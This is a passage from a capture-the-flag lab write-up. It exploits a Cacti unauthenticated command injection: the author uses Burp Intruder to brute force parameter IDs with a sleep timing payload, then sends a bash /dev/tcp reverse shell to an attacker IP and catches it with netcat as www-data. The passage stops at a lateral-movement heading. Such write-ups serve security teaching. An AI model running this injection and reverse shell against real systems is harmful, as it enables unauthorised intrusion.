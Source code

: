 We get no errors back, but the payload did not work either. That makes sense because based on the vulnerability's descrition:

  > If a valid combination is found, the module will use these to attempt exploitation. 

Thus, we need to brute force the `local_data_id` and `host_id` parameters, until we we find a valid combination of values that will make our payload to work. We can do that using Intruder:

![](payload_pos.png)

![](payload_settings.png){: .normal width="65%"}

> _Both payload `1` and `2` are defined as a sequential list of numbers from `1` to `10`._

![](brute_results.png){: .normal width="75%"}

Intruder shows that just one combination of payloads resulted in a delay of 5 secs (caused by our `sleep+5` payload): `local_data_ids[]=6` and `host_id=1`! Let's confirm that manually:

![](burp_responseTime.png)

What happens here is that some values of the HTTP reponse `rdd_name` parameter are exploitable: `uptime` is one of them (we can find the full list of the exloitable parameters [here](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143)). So, we brute-forcing the `local_data_id` and `host_id` parameters until one combination of them returns one of the exploitable parameters in the response:

![](proc.png){: .normal width="75%"}

![](uptime.png){: .normal width="75%"}

Now that we have found the right combination of parameter values, we can pass some reverse shell code as a payload, such as `bash -c 'bash -i >& /dev/tcp/10.10.14.6/1337 0>&1'`, URL-encode it (by pressing `CTRL+U`), open a listener on our attack host, and sent the request:

```bash
# setting up a listener
$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.211] 36722
```

![](revshell_payload.png)

```bash
# catching the revese shell
$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.211] 36722
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```

### Lateral movement
